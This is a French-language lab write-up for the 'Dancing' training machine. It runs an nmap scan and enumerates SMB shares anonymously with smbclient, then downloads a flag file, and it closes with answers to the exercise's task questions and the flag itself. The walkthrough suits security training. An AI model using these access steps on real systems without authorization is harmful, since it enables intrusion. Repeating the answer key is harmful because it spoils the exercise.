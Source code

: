 
# DANCING

![alt text](image.png)

#protocols #SMB #reconnaissance #anonymous/guest access

## 1. Méthodologie

On commence par l'énumération habituelle avec la commande `nmap -sV IP_cible`

```
└──╼ [★]$ nmap -sV 10.129.166.112
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-22 12:14 CST
Nmap scan report for 10.129.166.112
Host is up (0.0095s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Le port 445 (SMB) est ouvert, nous allons essayer de nous connecter par là avec `smbclient IP_cible`. Nous n'avons pas les credentials pour s'authentifier donc nous tentons de lister les partages avec `smbclient -L IP_cible -p 445`. Le mot de passe est demandé mais même sans mot de passe, nous arrivons à afficher les partages.

```
└──╼ [★]$ smbclient -L 10.129.166.112 -p 445
Password for [WORKGROUP\arcanelle]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.166.112 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
Nous essayons ensuite d'accéder à l'un de ses partages en tentant des connexions avec `smbclient \\\\IP_cible\\share_name`

```
└──╼ [★]$ smbclient \\\\10.129.166.112\\ADMIN$
Password for [WORKGROUP\arcanelle]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```
```
└──╼ [★]$ smbclient \\\\10.129.166.112\\C$
Password for [WORKGROUP\arcanelle]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```
```
└──╼ [★]$ smbclient \\\\10.129.166.112\\IPC$
Password for [WORKGROUP\arcanelle]:
Try "help" to get a list of possible commands.
smb: \> 
```
```
└──╼ [★]$ smbclient \\\\10.129.166.112\\WorkShares
Password for [WORKGROUP\arcanelle]:
Try "help" to get a list of possible commands.
smb: \> 
```

Nous avons donc accès aux partages nommés "IPC$" et "WorkShares". Nous explorons alors "IPC$" avec `ls` : 

```
smb: \> ls
NT_STATUS_NO_SUCH_FILE listing \*
```

Le dossier ne contient rien, je vais donc faire la même chose dans WorkShares:

```
smb: \> ls
  .                                   D        0  Mon Mar 29 03:22:01 2021
  ..                                  D        0  Mon Mar 29 03:22:01 2021
  Amy.J                               D        0  Mon Mar 29 04:08:24 2021
  James.P                             D        0  Thu Jun  3 03:38:03 2021

		5114111 blocks of size 4096. 1733522 blocks available
```

Il faut ensuite explorer tous les dossier avec les commandes `cd` et `ls`. Pour le dossier Amy.J :

```
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 04:08:24 2021
  ..                                  D        0  Mon Mar 29 04:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 06:00:37 2021

		5114111 blocks of size 4096. 1750234 blocks available
```
Pour le dossier James.P:

```
smb: \> cd James.p
smb: \James.p\> ls
  .                                   D        0  Thu Jun  3 03:38:03 2021
  ..                                  D        0  Thu Jun  3 03:38:03 2021
  flag.txt                            A       32  Mon Mar 29 04:26:57 2021

		5114111 blocks of size 4096. 1750234 blocks available
```
Il faut ensuite transférer le fichier flag.txt vers notre machine avec la commande `get flag.txt`. Cette commande va envoyer le fichier dans le répertoire dans lequel nous étions avant de lancer la commande SMB, ici dans mon /home/user.

```
smb: \James.p\> get flag.txt
getting file \James.p\flag.txt of size 32 as flag.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```
Nous pouvons quitter le smb avec la commande `exit`:

```
smb: \James.p\> exit
```

Puis nous pouvons afficher le fichier avec la commande `cat file_name` :

```
└──╼ [★]$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```

## 2. Questions

### Task 1

What does the 3-letter acronym SMB stand for?

```
server message block
```

### Task 2

What port does SMB use to operate at?

```
445
```

### Task 3

What is the service name for port 445 that came up in our Nmap scan?

```
microsoft-ds
```

### Task 4

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

```
-L
```

### Task 5

How many shares are there on Dancing?

```
4
```

### Task 6

What is the name of the share we are able to access in the end with a blank password?

```
WorkShares
```

### Task 7

What is the command we can use within the SMB shell to download the files we find?

```
get flag.txt
```

### Flag

```
5f61c10dffbc77a704d76016a22f1664
```